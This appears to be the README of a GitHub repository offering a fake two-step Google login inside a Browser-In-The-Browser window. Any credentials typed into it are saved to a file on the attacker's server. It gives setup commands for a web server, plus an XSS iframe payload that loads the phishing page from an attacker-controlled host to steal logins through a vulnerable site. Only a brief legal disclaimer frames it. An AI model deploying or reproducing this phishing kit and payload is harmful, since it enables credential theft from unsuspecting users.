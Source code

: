 # GoogleBITB

This repo contains a fake two-part Google Login implemented within a Browser-In-The-Browser attack window. It can be used on a web server that supports PHP files. Any entered credentials are saved in <i>/opt/GoogleBITB/creds.txt</i>. The Domain Suffix can be changed from <b>@client.com</b> to any site of your choosing (to do this, just edit line 21 of login_page.html). Follow steps below for a quick and easy setup.

<p align='center'>
<img alt='Email Page' src='http://165.227.79.102/img/4.png?q=1' style='width:800px;'/>
</p>

Legal Disclaimer: Usage of this repo for attacking targets without prior consent is illegal. It is the end user's responsiblity to obey applicable local, state and federal laws. Developer assumes no liability for any misuse or damage caused by this repo.

### Get Started

Run the below commands in the <b>/var/www/html</b> folder of your web server.

```
git clone https://github.com/jakedmurphy1/GoogleBITB.git
```

```
cd GoogleBITB
```

```
chmod 666 creds.txt
```
Move the credentials file into a non-public folder:
```
mkdir /opt/GoogleBITB && mv creds.txt /opt/GoogleBITB/creds.txt
```

Then visit <i>/GoogleBITB/index.html</i> in your browser and give it a try! Any gathered credentials will be stored in <i>/opt/GoogleBITB/creds.txt</i>

### Getting Creds from a XSS Attack

You can use this repo to steal credentials through a XSS attack. Just set it up and use the following XSS payload:
```
<iframe style='border:none;width:100%;height:100%' scrolling='no' src='https://[ATTACKER_SERVER]/GoogleBITB/index.html'/>
```
<i> Be sure to have HTTPS on your server or the iframe will not render.</i>

This payload will create a frame within frame (inception) prompting the user to sign in from what appears to be the vulnerable application. 

### Sources
https://github.com/jakedmurphy1/GooglePhishing

https://github.com/mrd0x/BITB
